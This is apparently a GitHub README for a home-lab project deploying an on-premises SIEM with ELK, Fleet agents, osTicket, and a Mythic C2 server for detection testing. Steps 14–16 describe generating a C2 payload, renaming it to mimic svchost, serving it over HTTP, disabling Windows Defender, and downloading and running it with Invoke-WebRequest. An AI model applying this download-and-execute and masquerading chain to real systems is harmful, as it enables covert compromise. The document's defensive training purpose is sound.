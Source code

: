 # 30-Day-On-Prem

## Objective

Implement a comprehensive Security Information and Event Management (SIEM) system on-premises. The project will focus on, deploying and configuring an ELK stack (Elasticsearch, Logstash, Kibana) to collect, process, and visualize security-relevant data, setting up a Fleet Server to manage and monitor Elastic Agents deployed on various systems and keep it all centralized, provisioning Windows and Linux server environments for testing and demonstration purposes, integrating a Mythic C2 server to simulate cyberattacks and assess the SIEM's detection capabilities, ans deploying an OSTicket server for incident management and ticketing. The overall goal is to establish a robust SIEM solution capable of detecting, analyzing, and responding to security threats within the organization.

### Skills Learned

ELK Stack: Elasticsearch, Logstash, and Kibana for data ingestion, processing, and visualization.
Security Information and Event Management (SIEM): Understanding of SIEM concepts, best practices, and use cases.
Network and System Administration: Knowledge of system configurations and troubleshooting techniques.
Security Tools and Technologies: Familiarity with tools like Kali, osTicket, and other security assessment tools.
Problem-solving: Ability to identify and troubleshoot issues related to SIEM deployments and data analysis.
Analytical Thinking: Skill in analyzing large datasets to identify security threats and patterns.
Attention to Detail: Meticulous approach to ensure accurate data collection and analysis.
Continuous Learning: A mindset of staying updated with the latest security threats and technologies.

### Tools Used

Elasticsearch: For storing and analyzing large volumes of data.
Logstash: Collects, processes, and transforms data from various sources.
Kibana: A powerful visualization tool for exploring and analyzing data stored in Elasticsearch.
Beats: Lightweight data shippers (e.g., Filebeat, Auditbeat, Metricbeat) to collect data from various sources.
Threat Intelligence Platforms: Tools to gather and analyze threat intelligence data.
Configuration Management Tools: To automate the deployment and configuration of the SIEM components.


## Steps

1. In Virtual box get your 6 machines ready. 4 ubuntu Libux m 2 Windows servers.<br>
![VMs](https://github.com/user-attachments/assets/a24c743d-907d-4d7e-b02f-e08b3b694833)<br>
*Ref 1: VMs*<br>
2. Set up your NAT network, enter your prefered IPv4 prefic and group your VMs into your newly created NAT network.<br>
![NAT Network](https://github.com/user-attachments/assets/735129b7-a24b-4b65-b076-2e3d48932b45)<br>
*Ref 2: NAT Network*<br>
3. Spin up your machines and update them.
4. Configure SSH port forwarding in your VM software, create one for each VM.<br>
![port-forwarding](https://github.com/user-attachments/assets/ee3278a5-30eb-4ba2-9df2-6be36221ef7f)<br>
*Ref 3: Port Forwarding*<br>
5. Install Elastic and Kibana on your ELK server and Sysmon on your Windows Server. Sudo nano /etc/elasticsearch/elasticsearh.yml > uncomment "network.host" and change it to the VMs ip and uncomment port. Start up elastic.<br>
![start elasticsearch](https://github.com/user-attachments/assets/7c4277af-cca8-466c-a77e-76c862fe3956)<br>
*Ref 4: Start elastic*<br>
6. Install Kibana, update config file > uncomment "server.port" and "server.host" and change it to ip address, same with "server.publicBaseUrl" with <ip address>:5601.<br>
![kibana config](https://github.com/user-attachments/assets/fc12b7e2-62a3-41fa-93bb-f59a48597e37)<br>
*Ref 5: Kibana config*<br>
7. Create encryption keys > cd /usr/share/kibana/bin > sudo ./kibana-encryption-keys generate. Next sudo ./kibana-keystore add <encryption key filename> > encryption key. Start up Kibana.<br>
![kibana generate encrypt keys](https://github.com/user-attachments/assets/0c2e2889-fd62-4d47-bf0a-9859d13167db)<br>
*Ref 6: Generate enctyption keys*<br>
![kibana encryption keys](https://github.com/user-attachments/assets/c8bc5e16-0f93-482e-b8b4-9a5245ef4fba)<br>
*Ref 7: Encryption keys*<br>
![start kibana](https://github.com/user-attachments/assets/81dff932-ce13-4ef2-847c-dc21945a767d)<br>
*Ref 8: Start Kibana*
8. Create a port forward rule on virtualbox(or VMware) to ELK. Create enrollment token > cd/usr/share/elasticsearch/bin. For verification code: cd /usr/share/kibana/bin > sudo ./kibana-verification-code. To login use elastic as username and password from security auto-configuration information("elastic built-in superuser passwrod").<br>
![ELK port forward](https://github.com/user-attachments/assets/5894648f-87b3-4a15-8078-48770b7941ca)<br>
*Ref 9: ELK port forward*<br>
![kibana enrollment key](https://github.com/user-attachments/assets/c175773b-674c-4425-8287-c14e76ed298c)<br>
*Ref 10: Enrollment key*<br>
![kibana verification code](https://github.com/user-attachments/assets/57e5270d-d35d-4cb2-831d-b7988c725d4e)<br>
*Ref 11: Verification code*<br>
9. Setup Fleet Server, Hamburger icon > fleet > add fleet server. Specify name, URL is the ip address of the fleet VM > generate server policy > fleet settings to change port from 443 to 8220 in Edit Fleet Server. Click agents > add fleet server > continue; copy Linux Tar and paste into fleet VM. Continue enrolling elastic agent > enter a policy name > create policy > click Windows tab and copy agent install text > on Windows server VM paste into an admin PowerShell instance. use "--insecure" flag.<br>
![elastic screen](https://github.com/user-attachments/assets/dce33c5a-0715-41f5-bd91-44490badbd7e)<br>
*Ref 12: elastic screen*<br>
![PS insecure agent](https://github.com/user-attachments/assets/233783f1-cc9b-497e-978d-979c0712b4cc)<br>
*Ref 13: insecure flag*<br>
![windows add agent](https://github.com/user-attachments/assets/42dd1a73-a36b-45c9-a653-184ef7baf22f)<br>
*Ref 14: Windows add agent*<br>
![Add Agent success](https://github.com/user-attachments/assets/f65fdb07-289a-42c2-a5be-026e9716dd3c)<br>
*Ref 15: Add Windows agent success*<br>
10. Add and Agent for Linux(Ubuntu) Server > create new agent policy > name it > enroll in fleet > create policy > copy Linux Tar and paste into Linux Server.<br>
![elastic screen](https://github.com/user-attachments/assets/9d84d1dd-1e1d-4594-be5d-4d0fa940a537)<br>
*Ref 16: Elastic screen*<br>
![Fleet](https://github.com/user-attachments/assets/fdbd22f3-b0a0-4bbf-b236-4957421d3883)<br>
*Ref 17: Fleet*<br>
11. Click the Haburger Icon > Integrations > Search "custom windows event logs" > add custom winds event logs > name it, for channel name go to windows server and open event viewer to find sysmon then operational: right-click, properties, "full name" is the channel name > exisiting host under "where to add", ...; win-policy > save and continue.<br>
![Custom windows event logs](https://github.com/user-attachments/assets/03598f24-eb91-4029-8187-3dbb992208cf)<br>
*Ref 18: Custom Windows event logs*<br>
12. On your Windows Server, Event viewer find Windows Defender > operational, properties, copy "full name" and add another custom Windows event logs like above. Enable RDP on Windows Server under remote desktop settings<br>
13. Install docker-compose and make on your mythic vm. Install <a href="https://docs.mythic-c2.net/installation">Mythic</a> then run sudo make. > sudo ./mythic-cli start > cat env, and create another port forwarding rule for Mythic, then install a Mythic agent and C2 profile.<br>
14. Make a Mythic payload by going to payloads > Actions > Generate new payload > Windows > Apollo > include all commands > include http: callback remove the s from hhtps and change it to the mythic vms ip address > create pay load > go to payloads and right click download and copy link address.
![Mythic payload](https://github.com/user-attachments/assets/e6297be7-be64-4034-87a7-abbeebc9950b)<br>
*Ref 19: Mythic payload*<br>
![Mythic agent and profile](https://github.com/user-attachments/assets/371b2f2e-a574-4d49-ab0b-9671ef0b3eda)<br>
*Ref 20: Mythic agent and profile*<br>
![Mythic active callback](https://github.com/user-attachments/assets/114ebab0-2ff4-48ed-b5c6-09cbe672254b)<br>
*Ref 21: Mythic active callback*<br>
15. In the Mythic VM cd into home directory > wget <link address>; change 8443 to 744. and ip to the mythic vm ip nad --no-check-certificate > mv <file> svchost-<make a filename>.exe < python3 -m http.server 9999
16. Disable Windows Defender on the Windows Server and add an exclusion for the Downloads Folder. In PowerShell invoke-webrequest -uri http://<mythic vm ip address>:9999/svchost-<filename>.exe -Outfile "(:\Users\Administrator\Downloads\svchost-<filename>.exe" > run the file thats in downloads.
17. Spin up your osTicket VM. Download <a href="https://www.apachefriends.org/download.html">xampp</a> by apache and <a href="https://osticket.com/">osTicket</a>. Click on xampp to install it. Extract all of the osTicket download after you extract the osticket zip in that folder.
